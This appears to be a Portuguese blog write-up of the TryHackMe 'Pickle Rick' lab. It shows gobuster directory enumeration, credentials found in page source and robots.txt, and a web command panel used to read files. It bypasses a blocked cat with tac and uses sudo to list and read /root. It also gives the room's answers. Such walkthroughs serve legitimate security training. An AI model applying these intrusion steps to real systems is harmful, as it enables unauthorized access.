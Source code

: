 # Pickle Rick - Writeup (THM)

![hacking-writeups-thm-pickle-rick-banner.png](uploads/images/hacking-writeups-thm-pickle-rick-banner.png)

Neste artigo vamos ver o meu passo-à-passo para resolver o desafio **Pickle Rick** na plataforma do **TryHackMe**! Vale lembrar que tudo isso foi registrado com base na minha experiência e que pode haver outras formas e meios de se chegar aos mesmos resultados. Sabendo disso, vamos lá!

---

Antes de começar, vamos adicionar o endereço gerado pela plataforma em um arquivo TXT para que não tenhamos que ficar redigitando o mesmo sempre que necessário, pois podemos pegar o valor utilizando o comando cat:

```bash
$ echo "https://10-10-104-244.p.thmlabs.com" > url.txt
$ cat url.txt
```

```
https://10-10-104-244.p.thmlabs.com
```

Jóia, entrando no endereço do site e ao inspencionar a página inicial, é possível verificar a nota:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Decidi utilizar o **GoBuster** para pesquisar diretórios e/ou arquivos do site:

```bash
$ gobuster dir -u $(cat url.txt) -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10-10-104-244.p.thmlabs.com
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/03 14:02:04 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 306]
/.htaccess            (Status: 403) [Size: 311]
/.htpasswd            (Status: 403) [Size: 311]
/assets               (Status: 301) [Size: 343] [--> http://10-10-104-244.p.thmlabs.com/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 315]

===============================================================
2022/07/03 14:04:01 Finished
===============================================================
```

Conteúdo do aquivo **robots.txt**:

```
Wubbalubbadubdub
```

Realizei mais uma pesquisa de diretório e arquivos com uma outra wordlist, e para a minha surpresa encontramos uma página de login:

```bash
$ gobuster dir -u $(cat url.txt) -w ~/Tools/fuzz.txt/fuzz.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10-10-104-244.p.thmlabs.com
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/zerodois/Tools/fuzz.txt/fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/03 14:09:22 Starting gobuster in directory enumeration mode
===============================================================
/%2e%2e//google.com   (Status: 400) [Size: 182]
/.ht_wsr.txt          (Status: 403) [Size: 313]
/.hta                 (Status: 403) [Size: 306]
/.htaccess-dev        (Status: 403) [Size: 315]
/.htaccess            (Status: 403) [Size: 311]
/.htaccess-local      (Status: 403) [Size: 317]
/.htaccess-marco      (Status: 403) [Size: 317]
/.htaccess.BAK        (Status: 403) [Size: 315]
/.htaccess.bak        (Status: 403) [Size: 315]
/.htaccess.bak1       (Status: 403) [Size: 316]
/.htaccess.old        (Status: 403) [Size: 315]
/.htaccess.orig       (Status: 403) [Size: 316]
/.htaccess.sample     (Status: 403) [Size: 318]
/.htaccess.save       (Status: 403) [Size: 316]
/.htaccess.txt        (Status: 403) [Size: 315]
/.htaccess_orig       (Status: 403) [Size: 316]
/.htaccess_extra      (Status: 403) [Size: 317]
/.htaccess_sc         (Status: 403) [Size: 314]
/.htaccessBAK         (Status: 403) [Size: 314]
/.htaccessOLD         (Status: 403) [Size: 314]
/.htaccess~           (Status: 403) [Size: 312]
/.htaccessOLD2        (Status: 403) [Size: 315]
/.htgroup             (Status: 403) [Size: 310]
/.htpasswd            (Status: 403) [Size: 311]
/.htpasswd_test       (Status: 403) [Size: 316]
/.htpasswd-old        (Status: 403) [Size: 315]
/.htpasswds           (Status: 403) [Size: 312]
/.httr-oauth          (Status: 403) [Size: 313]
/.htusers             (Status: 403) [Size: 310]
/assets/              (Status: 200) [Size: 2206]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/robots.txt           (Status: 200) [Size: 17]
/server-status/       (Status: 403) [Size: 316]

===============================================================
2022/07/03 14:11:24 Finished
===============================================================
```

Usuário e senha respectivamente:

```
R1ckRul3s
Wubbalubbadubdub
```

Na tela que foi exibida, executamos o comando `ls` e boom!

![picke-rick-ls-result.png](uploads/images/hacking-writeups-thm-pickle-rick-command-ls-result.png)

No entanto, o comando cat encontrava-se desabilitado. Sendo assim, decidi utilizar o comando `tac`, que também faz a leitura de arquivos mas da última para a primeira linha:

```bash
$ tac Sup3rS3cretPickl3Ingred.txt
```

```
mr. meeseek hair
```

Dando uma olhada nos arquivos do usuário **rick** podemos ver mais um arquivo suspeito utilizando o comando `ls -la /home/rick`:

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

Como o arquivo foi nomeado com um espaço no nome, precisamos utilizar um caracter de escape (`\`) para conseguir pegar o conteúdo do arquivo utilizando o comando `tac /home/rick/second\ ingredients`:

```
jerry tear
```

Para o último arquivo, vamos encontrá-lo na pasta `/root` no entanto, nosso usuário parece não ter acesso ao mesmo. Mas, engano seu! Se você digitar `sudo -l` vai ver uma informação **muito importante** na última linha do output.

Por fim, conseguiremos listar os arquivos do diretório com o comando `sudo ls -la /root`:

```
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Jul  3 17:59 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

Não há mais nenhum segredo! Para realizar a leitura do arquivo temos que entrar com o comando `sudo tac /root/3rd.txt`:

```bash
3rd ingredients: fleeb juice
```

---

Então é isso! Espero que tenha aprendido algo e que este artigo sirva como base na resolução de problemas futuros.

**Abraços!**
